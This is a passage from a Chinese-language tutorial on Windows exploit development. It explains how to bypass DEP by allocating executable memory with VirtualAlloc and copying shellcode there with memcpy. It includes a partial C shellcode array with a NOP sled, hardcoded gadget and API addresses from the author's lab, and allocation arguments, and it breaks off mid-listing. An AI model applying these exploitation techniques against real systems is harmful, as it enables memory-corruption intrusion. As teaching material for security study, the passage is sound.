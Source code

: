 开辟了可执行空间后，接下来要将我们的shellcode中的一部分利用内存中已有的memcpy()复制到这个可执行空间去。

大家知道 memcpy 函数位于 ntdll.dll，需要三个参数，依次为目的内存起始地址、源内存起始地址、复制长度，其中目的内存起始地址和复制长度都可以直接写在 shellcode 中，唯一的
难点在于对源内存起始地址的确定。

实际上我们不需要精确的定位，只要保证源内存起始地址在 shellcode 中关键代码的前边即可，因此可以使用 ```PUSH ESP JMP EAX``` 指令来填充这个参数。

如何布置 EAX 想必大家都已经很熟悉，而关于 EAX 具体指向什么指令我们暂时先不讨论。另外一个需要注意的问题，在空间申请后EBP被设置成 0x00000000，而后边我们还会再用到 EBP，所以还需要修复 EBP。最后还需要注意 VirtualAlloc 函数返回时带有 16（0x10）个字节的偏移，要在 shellcode 中要添加相应的填充。shellcode 如下所示。

> 就我的实验环境下，```ret 10```执行后，esp=0012fee8,那么[0012fee8]中应当布置一个可执行指令的地址。

```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
```